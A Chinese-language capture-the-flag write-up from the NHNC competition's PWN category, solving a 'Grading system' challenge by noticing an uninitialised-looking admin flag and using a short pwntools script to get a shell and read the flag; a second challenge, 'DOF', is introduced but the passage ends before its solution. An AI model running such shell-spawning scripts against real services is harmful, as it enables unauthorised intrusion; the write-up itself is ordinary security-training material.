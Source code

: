
# PWN
## Grading system (100 pts)
```
出題者：Raymond

線上評分系統！幫你的學生登記分數的好工具！

nc chal.nhnc.ic3dt3a.org 2003
```
[file link](https://nhnc.ic3dt3a.org/files/999ec6d04ddd2748cfdb904ef3f02a92/grading_system.zip?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NjV9.ZzrleQ.92HCyBGfRKK_XRkA-wt0YOddt98)

稍微看一下source code，在switch choice時，有個選項可以開shell:
```c=
case 'S':
    if (is_admin) {
        spawn_shell();
        break;
    } else {
        puts("Contact admin if you a bug occurred");
        break;
    }  
```
原本在想要怎麼用buffer overflow蓋掉`is_admin`，但發現初始值是`1234`
我:???
所以exploit很簡單:
```python=
from pwn import *

r = remote("chal.nhnc.ic3dt3a.org",2003)

r.sendlineafter('Number of students: ',b'114514')
r.sendlineafter('Your choice:',b'S')
r.interactive()
r.close()
```

```bash
$ ls
chal
flag
run.sh
$ cat flag
NHNC{i_dont_think_you_are_a_teacher}
exit
```
> NHNC{i_dont_think_you_are_a_teacher}

## DOF (100 pts)
```
出題者：whale.120

I've heard that you just learned overflow, show me twice!

nc chal.nhnc.ic3dt3a.org 2000
```
[file link](https://nhnc.ic3dt3a.org/files/9aa61456b15198e0e8ff13cf67f95783/chal_23?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NjZ9.Zzvxbg.bIUHXCsDgtTUpCbFCxFrw3bHO-g)
